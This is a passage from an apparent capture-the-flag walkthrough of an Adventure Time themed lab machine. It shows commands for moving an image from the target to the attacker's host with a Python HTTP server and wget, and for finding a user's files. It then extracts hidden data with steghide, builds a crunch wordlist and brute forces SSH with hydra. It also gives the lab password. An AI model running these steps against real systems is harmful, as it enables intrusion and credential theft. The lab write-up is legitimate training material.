 1. As we continue our adventure with the **peppermint-butler** account, we need to transfer an `butler-1.jpg` image file for further analysis
   - Start a simple HTTP server in the directory containing the image
   - Download the file to our local attacking machine

```Bash
python3 -m http.server
```

![SCREEN24](https://github.com/user-attachments/assets/8313ae64-fdf5-41d3-be31-7a499f782a50)

```Bash
wget http://IP:8000/butler-1.jpg
```

![SCREEN25](https://github.com/user-attachments/assets/0135f124-87d0-4bf1-ae6a-e86fb07aee45)

2. Since the image itself doesn't contain obvious clues, let's search for additional files owned by peppermint-butler that might provide context

```Bash
find / -user peppermint-butler -type f 2>/dev/null
```

3. We discover a file at `/usr/share/xml/steg.txt` that appears to contain a password and hint for steganography with steghide

```Bash
cat /usr/share/xml/steg.txt
```

![SCREEN26](https://github.com/user-attachments/assets/64340798-86e3-499b-903b-3191ae760da4)

```Bash
steghide extract -sf butler-1.jpg
```

![SCREEN27](https://github.com/user-attachments/assets/5f315c6a-14df-416c-92fb-2b6ad8600482)

4. Steghide successfully extracted a password-protected zip archive. We need to find the password to extract its contents. Let's look for additional clues

```Bash
cat /etc/php/zip.txt
```

![SCREEN28](https://github.com/user-attachments/assets/8f6cd8dc-27a8-4468-bcbf-b42268b93253)
![SCREEN29](https://github.com/user-attachments/assets/cb845890-5717-42dc-8de7-4adbc747fddc)

5. We need to create a wordlist with possible password combinations matching the hint

```Bash
crunch 18 18 -t 'The Ice King s@@@@' > file.txt
```

![SCREEN30](https://github.com/user-attachments/assets/5442c997-1a2e-458d-b132-380714a7caae)

6. Now, we can use hydra to brute force SSH access using the wordlist we created and the username "gunter"
   - The password is **The Ice King sucks**
